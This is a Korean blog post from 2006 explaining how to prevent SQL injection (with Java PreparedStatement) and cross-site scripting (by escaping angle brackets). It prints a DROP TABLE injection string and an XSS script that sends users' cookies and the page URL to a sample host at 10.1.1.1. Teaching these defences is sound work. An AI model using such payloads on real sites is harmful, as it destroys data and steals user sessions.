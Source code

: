 +++
title = "Sql injection & Cross Site Scripting (XSS) 예방책"
date = "2006-08-29T18:56:00+0900"
categories = ["Software Engineering"]
tags = ["sql","injection"]
description = ""
+++
<span class="copyright_entry" style="display:block;" title="Sql injection &amp; Cross Site Scripting (XSS) 예방책@@**@@http://shed.egloos.com/1401958"></span>
<p class="MsoNormal" style=""><b style=""><span style="font-family: 굴림체;" lang="EN-US">&lt; Sql injection&nbsp;&gt;</span></b></p> 
<p class="MsoNormal" style=""><b style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">[</span></b><b style=""><span style="font-size: 10pt; font-family: 굴림체;">공격 예제<span lang="EN-US">]</span></span></b></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">Java </span><span style="font-size: 10pt; font-family: 굴림체;">소스의 게시판 검색 <span lang="EN-US">Sql </span>구문 코딩이 아래와 같다고 하고<span lang="EN-US"></span></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt;" lang="EN-US">String findQuery = </span><span style="font-size: 10pt;">“<span lang="EN-US">select * from notice where <b style="">title = '</b></span><b style="">”<span lang="EN-US"> + keyword + </span>“<span lang="EN-US">' </span>“</b><span lang="EN-US"> ;</span></span><span style="font-size: 10pt; font-family: 바탕;" lang="EN-US"></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">&nbsp;</span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;">홈페이지의 게시판 검색 시 <span style="" lang="EN-US">keyword</span><span lang="EN-US"> </span>에<span lang="EN-US"> <br> <br> </span></span><span style="font-size: 10pt;">“<span lang="EN-US"><span style="">&nbsp;&nbsp; </span>any' <span style="">&nbsp;</span>;<span style="">&nbsp; </span>DROP TABLE NOTICE<span style="">&nbsp;&nbsp; </span></span>“</span><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US"><span style="">&nbsp; </span></span><span style="font-size: 10pt; font-family: 굴림체;">를 넣고 검색한다면 <span lang="EN-US"></span></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">&nbsp;</span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;">아래와 같은 <span lang="EN-US">Sql </span>구문이 실행되고<span lang="EN-US"></span></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt;" lang="EN-US">SELECT * FROM notice WHERE title = 'any' ;<span style="">&nbsp; </span><b style="">DROP TABLE notice</b></span><span style="font-size: 10pt; font-family: 바탕;" lang="EN-US"></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">NOTICE </span><span style="font-size: 10pt; font-family: 굴림체;">테이블이 삭제됩니다<span lang="EN-US">.</span></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">&nbsp;</span></p> 
<p class="MsoNormal" style=""><b style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">[</span></b><b style=""><span style="font-size: 10pt; font-family: 굴림체;">예방법<span lang="EN-US">]</span></span></b></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">Sql </span><span style="font-size: 10pt; font-family: 굴림체;">구문을 직접 생성하는 방법을 피하면 됩니다<span lang="EN-US">.</span></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">Java</span><span style="font-size: 10pt; font-family: 굴림체;">의 경우<span lang="EN-US"> Prepared Statement </span>를 이용하면 예방가능합니다<span lang="EN-US">.</span></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">--------------------------------------------------------------------------</span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt;" lang="EN-US">String findQuery = </span><span style="font-size: 10pt;">“<span lang="EN-US">select * from notice where title = ? </span></span><span style="font-size: 10pt; font-family: 바탕;" lang="EN-US">“</span><span style="font-size: 10pt;" lang="EN-US">;</span><span style="font-size: 10pt; font-family: 바탕;" lang="EN-US"></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt;" lang="EN-US">PreparedStatement pstmt = dbConnection.prepareStatement(findQuery);</span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt;" lang="EN-US">pstmt.setString(1, keyword);</span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt;" lang="EN-US">ResultSet rs = pstmt.executeQuery();</span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">-----------------------------------------------------------------------</span></p> 
<p class="MsoNormal" style="margin-left: 40pt; text-align: justify; text-indent: -20pt;"><span style="font-size: 10pt; font-family: Wingdings;" lang="EN-US"><span style="">l<span style="font-family: &amp;quot;Times New Roman&amp;quot;; font-style: normal; font-variant: normal; font-weight: normal; font-size: 7pt; line-height: normal; font-size-adjust: none; font-stretch: normal;">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; </span></span></span><span style="font-size: 10pt;">참고<span lang="EN-US"> URL <br> http://korea.internet.com/channel/content.asp?kid=18&amp;cid=185&amp;nid=34414</span></span><span style="font-size: 10pt; font-family: 바탕;" lang="EN-US"></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">&nbsp;</span></p> 
<p class="MsoNormal" style=""><b style=""><span style="font-family: 굴림체;" lang="EN-US">&lt; Cross Site Scripting&nbsp;(XSS) &gt;<span style="">&nbsp;&nbsp;&nbsp;&nbsp; </span></span></b></p> 
<p class="MsoNormal" style=""><b style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">[</span></b><b style=""><span style="font-size: 10pt; font-family: 굴림체;">공격 예제<span lang="EN-US">]</span></span></b></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;">아래의 코드가 웹페이지에 삽입되어 있다면<span lang="EN-US"></span></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt;" lang="EN-US">----------------------------------------------------------------</span><span style="font-size: 10pt; font-family: 바탕;" lang="EN-US"></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt;" lang="EN-US">&lt;script&gt;</span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt;" lang="EN-US">document.location.replace('http://10.1.1.1:8080/</span><span style="font-size: 10pt;" lang="EN-US"> <span style="">getCookie.cgi?'+document.cookie+'&amp;'+document.URL);</span></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt;" lang="EN-US">&lt;/script&gt;</span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt;" lang="EN-US">---------------------------------------------------------------</span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;">페이지를 접속하는 순간에 사용자의 쿠기값들과 현재 페이지<span lang="EN-US"> URL</span>을 </span><span style="font-size: 10pt;" lang="EN-US"><a href="http://10.1.1.1:8080/getCookie.cgi"><span style="font-family: 굴림체;">http://10.1.1.1:8080/getCookie.cgi</span></a></span><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US"> </span><span style="font-size: 10pt; font-family: 굴림체;">로 전송합니다<span lang="EN-US">.</span></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;">위의 예 이외에도 여러가지 유형이 있습니다<span lang="EN-US">.</span></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">&nbsp;</span></p> 
<p class="MsoNormal" style=""><b style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">[</span></b><b style=""><span style="font-size: 10pt; font-family: 굴림체;">예방법<span lang="EN-US">]</span></span></b></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;">대부분의<span lang="EN-US"> XSS</span>는 게시판을 통해서 일어나므로<span lang="EN-US"></span></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;">사용자들 게시판에<span lang="EN-US"> html </span>코드를 쓸 수 없게 합니다<span lang="EN-US">.</span></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;">이 때<span lang="EN-US"> DB</span>에 게시물을<span lang="EN-US"> Insert </span>시에는 처리할 것이 없습니다<span lang="EN-US">.</span></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;" lang="EN-US">DB</span><span style="font-size: 10pt; font-family: 굴림체;">에서 해당 게시물을 조회할 때<span lang="EN-US"></span></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt; font-family: 굴림체;">게시물 내용에서<span lang="EN-US"><span style="">&nbsp; </span></span>“<span lang="EN-US"> &lt; </span>“<span lang="EN-US"><span style="">&nbsp; </span></span>는<span lang="EN-US"><span style="">&nbsp; </span>&amp;lt;<span style="">&nbsp; </span></span>로 변경 하고<span lang="EN-US"><span style="">&nbsp;&nbsp;&nbsp; </span></span>”<span lang="EN-US"> &gt; </span>“ 는<span lang="EN-US"><span style="">&nbsp; </span>&amp;gt; </span>로 변경 해주면 웹브라우져는 악의적인 코드를<span lang="EN-US"> html</span>태그로 인식하지 않으므로 스크립트가 실행되지 않습니다<span lang="EN-US">(</span>화면에는 입력한 대로 출력되어 보이게 됩니다<span lang="EN-US">).</span></span></p> 
<p class="MsoNormal" style="margin-left: 40pt; text-align: justify; text-indent: -20pt;"><span style="font-size: 10pt; font-family: Wingdings;" lang="EN-US"><span style="">l<span style="font-family: &amp;quot;Times New Roman&amp;quot;; font-style: normal; font-variant: normal; font-weight: normal; font-size: 7pt; line-height: normal; font-size-adjust: none; font-stretch: normal;">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; </span></span></span><span style="font-size: 10pt;">참고<span lang="EN-US"> URL<br> http://www.zdnet.co.kr/builder/system/security/0,39031673,39131781,00.htm</span></span><span style="font-size: 10pt; font-family: 바탕;" lang="EN-US"></span></p> 
<p class="MsoNormal" style=""><span style="font-size: 10pt;" lang="EN-US">&nbsp;</span></p> 
<!--
       <rdf:RDF xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#"
		    xmlns:dc="http://purl.org/dc/elements/1.1/"
		    xmlns:trackback="http://madskills.com/public/xml/rss/module/trackback/">
       <rdf:Description
	        rdf:about="http://shed.egloos.com/1401958"
	        dc:identifier="http://shed.egloos.com/1401958"
	        dc:title="Sql injection &amp; Cross Site Scripting (XSS) 예방책"
	        trackback:ping="http://shed.egloos.com/tb/1401958"/>
       </rdf:RDF>
       -->

<ul></ul>